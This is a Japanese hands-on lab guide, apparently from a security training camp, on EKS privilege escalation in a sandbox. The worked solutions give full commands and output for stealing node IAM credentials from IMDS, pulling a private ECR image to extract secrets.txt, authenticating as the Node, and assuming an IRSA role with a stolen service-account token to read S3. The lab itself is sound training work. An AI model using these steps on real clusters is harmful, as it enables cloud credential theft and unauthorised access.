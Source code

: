 # EKS Privilege Escalation

## 必要なもの

- [kubectl](https://kubernetes.io/ja/docs/tasks/tools/install-kubectl/)
- [AWS CLI](https://docs.aws.amazon.com/ja_jp/cli/latest/userguide/getting-started-install.html)

共有した AWS クレデンシャルを設定しておいてください。

```shell
$ cat ~/.aws/credentials
[default]
aws_access_key_id = ASIA…
aws_secret_access_key = …
aws_region = ap-northeast-1
```

次のコマンドで EKS への接続設定をして、`kubectl get pods` が成功すれば OK です。

```shell
$ aws eks update-kubeconfig --name sandbox-seccamp --region ap-northeast-1
Added new context arn:aws:eks:ap-northeast-1:...:cluster/sandbox-seccamp to /root/.kube/config

$ kubectl get pods
No resources found in default namespace.
```

## この演習で必要なコマンドの使い方 Tips
<details><summary>📗 開く</summary>

### 侵害したと仮定した worker コンテナに入る

```shell
kubectl -n default exec -it worker bash
```

### IMDS へアクセスする

コンテナの中から次のコマンドを実行する

```shell
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/
curl -w "\n" -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

### IMDS から取得したクレデンシャルを使って AWS の API を実行する

```shell
$ export AWS_ACCESS_KEY_ID=ASIA... # AccessKeyId の値をセットする
$ export AWS_SECRET_ACCESS_KEY=... # SecretAccessKey の値をセットする
$ export AWS_SESSION_TOKEN=... # Token の値をセットする

# このコマンドが成功すれば認証成功
# ref. https://docs.aws.amazon.com/cli/latest/reference/sts/get-caller-identity.html
$ aws sts get-caller-identity
{
    "UserId": "...",
    "Account": "...",
    "Arn": "..."
}
```

### コンテナに設定されている環境変数を取得する

コンテナの中で次のコマンドを実行

```shell
env
```

### IRSA で ServiceAccount に紐づいたアクセストークンを取得する

```shell
cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token
```

### AssumeRoleWithWebIdentity API を呼び出す

```shell
aws sts assume-role-with-web-identity \
  --web-identity-token $(cat /var/run/secrets/eks.amaznaws.com/serviceaccount/token) \
  --role-arn $AWS_ROLE_ARN \
  --role-session-name attacker
```

</details>

## 1. IMDS を利用して ECR リポジトリからイメージを取得

🎯 目的: 侵害したコンテナから Node にアタッチされた IAM Role の権限で ECR リポジトリからイメージを取得する  
🚩 追加課題: イメージ内にある secrets.txt を取得しよう

<details><summary>解説</summary>

### 1. IMDS からクレデンシャルを取得する

```shell
# ここに書いているコマンドは worker コンテナの中で実行してします

$ TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
$ curl -w "\n" -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/
security-credentials/eksctl-sandbox-seccamp-nodegroup-NodeInstanceRole-...

# 上記パスにアクセスしてクレデンシャルを取得
$ curl -w "\n" -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/security-credentials/eksctl-sandbox-seccamp-nodegroup-NodeInstanceRole-...

  "Code" : "Success",
  "LastUpdated" : "2023-08-06T09:53:06Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA...",
  "SecretAccessKey" : "htj...",
  "Token" : "IQo...",
  "Expiration" : "2023-08-06T16:28:13Z"
}
```

### 2. ECR の情報を取得

```shell
# 必要なクレデンシャルを手に入れたので、ここからは手元の端末から実行しています
$ export AWS_ACCESS_KEY_ID=ASIA...
$ export AWS_SECRET_ACCESS_KEY=htj...
$ export AWS_SESSION_TOKEN=IQo...
$ export AWS_REGION=ap-northeast-1

# Arn が eksctl-sandbox-seccamp-nodegroup-NodeInstanceRole-... になっていれば OK
$ aws sts get-caller-identity
{
    "UserId": "AROA...:i-0a67e16c913236a0e",
    "Account": "...",
    "Arn": "arn:aws:sts::...:assumed-role/eksctl-sandbox-seccamp-nodegroup-NodeInstanceRole-..."
}

$ aws ecr describe-repositories
{
    "repositories": [
        {
            "repositoryArn": "arn:aws:ecr:ap-northeast-1:761166754261:repository/seccamp",
            "registryId": "761166754261",
            "repositoryName": "seccamp",
            "repositoryUri": "761166754261.dkr.ecr.ap-northeast-1.amazonaws.com/seccamp",
            "createdAt": "2023-08-05T08:10:51+00:00",
            "imageTagMutability": "MUTABLE",
            "imageScanningConfiguration": {
                "scanOnPush": false
            },
            "encryptionConfiguration": {
                "encryptionType": "AES256"
            }
        }
    ]
}

$ aws ecr list-images --repository-name seccamp
{
    "imageIds": [
        {
            "imageDigest": "sha256:1327ab6e9394e6854f22f4101fd11402ca9c4cc53c50d6c9bed0ce3a0f4d69b6",
            "imageTag": "latest"
        }
    ]
}
```

### 3. ECR からイメージを取得


```shell
$ aws ecr get-login-password --region ap-northeast-1 | docker login --username AWS --password-stdin 761166754261.dkr.ecr.ap-northeast-1.amazonaws.com
Login Succeeded

Logging in with your password grants your terminal complete access to your account.
For better security, log in with a limited-privilege personal access token. Learn more at https://docs.docker.com/go/access-tokens/

$ docker pull 761166754261.dkr.ecr.ap-northeast-1.amazonaws.com/seccamp:latest
```

### 4. 追加課題: secrets.txt を取得する

```shell
$ mkdir tmp && cd tmp
$ docker save 761166754261.dkr.ecr.ap-northeast-1.amazonaws.com/seccamp:latest -o seccamp.tar.gz
$ find . | grep layer.tar
383fd6c5e54eb4819bebd4603fa6b34052405037469bfeda873d01740505be74/layer.tar
3c32de9ccf25116a28648226e2804220fbb8e24e2a4ddf23e2f79c982c2034e8/layer.tar
de8b86e33ae69ac28a5379fc79eccc42f37c41395732b90ae47075d4c2efcee1/layer.tar

$ cd 383fd6c5e54eb4819bebd4603fa6b34052405037469bfeda873d01740505be74/
$ tar xzf layer.tar
$ ls etc/
secrets.txt
```


</details>

## 2. Node として認証する

🎯 目的: 侵害したコンテナから Node にアタッチされた IAM Role の権限で Node として認証する  
🚩 追加課題: どういった横展開ができるか調べよう

<details><summary>解説</summary>

### 1. IMDS からクレデンシャルを取得する

これは 1 と同じ

### 2. EKS アクセスの設定をする

```
# 手元のクレデンシャルをコリジョンしてしまうのを防ぎたいのでコンテナを使う
$ docker run --rm -it --entrypoint bash amazon/aws-cli
# コンテナの中で実行
$ export AWS_ACCESS_KEY_ID=ASIA...
$ export AWS_SECRET_ACCESS_KEY=htj...
$ export AWS_SESSION_TOKEN=IQo...
$ export AWS_REGION=ap-northeast-1

# kubectl をインストール
$ curl -LO "https://dl.k8s.io/release/$(curl -LS https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
$ chmod +x kubectl
$ mv ./kubectl /usr/local/bin

# クラスタ名は aws ec2 describe-instances の結果から、インスタンスのタグに入っている。割愛。
$ aws eks update-kubeconfig --name sandbox-seccamp
Added new context arn:aws:eks:ap-northeast-1:...:cluster/sandbox-seccamp to /root/.kube/config

$ kubectl get pods --all-namespaces
NAMESPACE     NAME                              READY   STATUS    RESTARTS   AGE
kube-system   aws-node-jql4z                    1/1     Running   0          47m
kube-system   coredns-8496bbc677-8jr6m          1/1     Running   0          54m
kube-system   coredns-8496bbc677-nx524          1/1     Running   0          54m
kube-system   kube-proxy-gmz2p                  1/1     Running   0          47m
kube-system   metrics-server-5d875656f5-d6rsn   1/1     Running   0          40m
...
```

</details>

## 3. IRSA を利用して S3 へアクセスしよう

🎯 目的: 侵害したコンテナから IRSA を利用して S3 にアクセスし、secrets.txt を取得しよう

<details><summary>解説</summary>

### 1. JWT を取得する

環境変数 `AWS_ROLE_ARN` の値と `AWS_WEB_IDENTITY_TOKEN_FILE` のファイルの値(JWT)をメモしておきます。

```shell
# このコマンドは worker コンテナ内で実行しています

$ env | grep AWS_
AWS_DEFAULT_REGION=ap-northeast-1
AWS_REGION=ap-northeast-1
AWS_ROLE_ARN=arn:aws:iam::...:role/eksctl-sandbox-seccamp-addon-iamserviceaccou-Role1-...
AWS_WEB_IDENTITY_TOKEN_FILE=/var/run/secrets/eks.amazonaws.com/serviceaccount/token
AWS_STS_REGIONAL_ENDPOINTS=regional

$ cat $AWS_WEB_IDENTITY_TOKEN_FILE
eyJhbGciO...
```

### 2. `AssumeRoleWithWebIdentity` を呼び出してクレデンシャルを取得

```shell
# 必要なクレデンシャルを手に入れたので、ここからは手元の端末から実行しています
# まっさらな環境で実行できることを確認するためにコンテナを使います
$ docker run --rm -it --entrypoint bash amazon/aws-cli
$ export JWT=(1で取得したJWT)
$ export AWS_ROLE_ARN=(1で取得した AWS_ROLE_ARN の値)
$ aws sts assume-role-with-web-identity \
  --web-identity-token $JWT \
  --role-arn $AWS_ROLE_ARN \
  --role-session-name attacker
{
    "Credentials": {
        "AccessKeyId": "ASIA...",
        "SecretAccessKey": "W+/sl7...",
        "SessionToken": "Fw..."
        ...
    }
}
```

### 3. 取得したクレデンシャルを使って S3 の情報を取得

```shell
$ export AWS_ACCESS_KEY_ID=ASIA... # AccessKeyId の値をセットする
$ export AWS_SECRET_ACCESS_KEY=... # SecretAccessKey の値をセットする
$ export AWS_SESSION_TOKEN=... # SessionToken の値をセットする
$ export AWS_REGION=ap-northeast-1

$ aws s3 ls
2023-08-06 09:26:19 seccamp-2023-hidden
$ aws s3 ls seccamp-2023-hidden
2023-08-06 09:27:27         38 hidden.txt
$ aws s3 cp s3://seccamp-2023-hidden/hidden.txt .
download: s3://seccamp-2023-hidden/hidden.txt to ./hidden.txt
$ ls
hidden.txt
```

</details>

